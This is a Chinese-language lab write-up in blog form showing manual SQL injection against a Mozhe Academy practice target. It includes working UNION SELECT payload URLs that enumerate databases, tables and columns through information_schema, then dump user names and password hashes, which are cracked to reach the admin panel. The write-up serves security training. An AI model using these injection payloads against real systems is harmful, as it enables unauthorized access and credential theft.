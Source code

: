 ```yaml
---
title: 墨者学院--手工注入mysql数据库实例
date: 2018-10-23 23:37:27
categories: WEB安全
tags: 手工挖掘漏洞

---
```

## 发现漏洞
﻿开启墨者靶场环境,发现此界面,在点击登陆下方的通知之后惊奇的看到存在参数id,可以试试通过传递SQL语句获取数据库信息.
![](1.png)
![](2.png)
## 注入测试
我们可以试试1=1和1=2大法,输入在参数id=1后面加入1=1进行逻辑判断
![](3.png)
显示正常,然后换1=2,因为1=2为一个假命题,如果能插入到数据库进行逻辑判断,那么由于该语句错误,数据库查询不到任何信息,界面就不会显示任何信息
![](4.png)
根据这种情况可以大概的判断出该网站很大可能存在SQL注入漏洞.
我们可以大概的猜测出该web页面中背后的SQL语句为

```
select  column1,column2..... from table  where id=$_GET["id"]
```
然后通过order by判断出该SQL语句查询有多少列(或者说查询多少个字段),
order by用于对筛选出来的结果按照列(关键字)进行排序,对于多列的时候，先按照第一个column name排序，如果第一个column name相同,则按照第二个column name排序,我们输入:

```
http://219.153.49.228:42182/new_list.php?id=1 order by 1,2,3,4,5
#假设该SQL语句中查询了5个关键字,如果没报错,那么表示所查询的关键字大于或者等于5,如果报错表示查询的小于5
```
![](5.png)
出现报错,表示所选择的关键字小于5,我们换成3,可以正确显示其界面,换成4也可以正常显示,所以可以得出所选择的关键字个数为4.
那么其SQL语句为:

```
select column1,column2,column3,column4 from table where id=$_GET("id")
```
接下来判断在页面中可以显示的关键字
![](6.png)
其SQL语句为:

```
select column1,column2,column3,column4 from table where id=5 union select 1,2,3,4
```

注:由上面的操作得出该SQL语句查询4个关键字,我们将id=5,则对于第一个SQL语句由于不满足where条件而不显示其内容,所以执行第二条语句,select 1,2,3,4就是判断在页面中显示的是哪些关键字.![](7.png))
由这个信息可以得出显示的是第二个和第三个字段的内容
## 获取数据库信息
我们将第二个和第三个字段换成MySQL数据库中的函数,即可获取其数据库的信息
使用user()函数可以得知当前数据库的使用者
使用database()函数可以得知当时数据库的名称
![](8.png))
该MYSQL数据库名叫mozhe_Discuz_StormGroup,当前使用者为root
在MYSQL数据库中有一个数据库叫information_schema数据库,它提供了访问数据库元数据的方式。什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。可以简单的理解为数据词典或者系统目录.


![](9.png))
其命令为:

```
http://219.153.49.228:42182/new_list.php
?id= 5 union select 1, schema_name ,3,4 from information_schema.schemata limit 0,1
```
注:limit 0,1表示从第0行起,取第一行数据,第一行为information_schema,举个例子:
![](10.png))
limit 0,1即就是指dvwa数据库
limit1,1即就是information_schema数据库
回到原来的注入问题,我们将limit 0,1换成limit 1,1   limit 2,2  limit 3,3  limit 4,4 information_schema,mozhe_Discuz_StormGroup,mysql,performance_schema,sys这五个数据库,当输入limit5,5页面没有内容表示目前拥有五个数据库.
然后枚举数据库中的数据表
注入的URL为:

```
http://219.153.49.228:43635/new_list.php?id=5  union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 0,1
```
获得mozhe_Discuz_StormGroup数据库的第一张表为StormGroup_member
![](11.png))
将0,1替换为1,1所得到的数据表为notice,替换成2,2则没有显示任何数据表示该数据库只有两张表.
所以得到数据库mozhe_Discuz_StormGroup中有两张表为StormGroup_member和notice表,那么我们查其列.
```
http://219.153.49.228:43635/new_list.php?id=5  union select 1,column_name,3,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1
```
![](12.png)
得到在其StormGroup_member表下有个列为id,我们将0,1替换成1,1   2,2    3,3   得到的列分别是name,password,status
那么可以得知在mozhe_Discuz_StormGroup数据库的StormGroup_member表下有四列分别是id,name,password,status

```
http://219.153.49.228:43635/new_list.php
?id=5  union select 1,name,3,4 from  StormGroup_member  limit 0,1
```
![](13.png))
查找其密码列

```
http://219.153.49.228:43635/new_list.php?id=5  union select 1,password,3,4 from  StormGroup_member  limit 0,1
```
![](14.png))
将此密码进行MD5解密可得明文密码
![](15.png))
然后我们就可以进入后台管理系统啦
![](16.png)
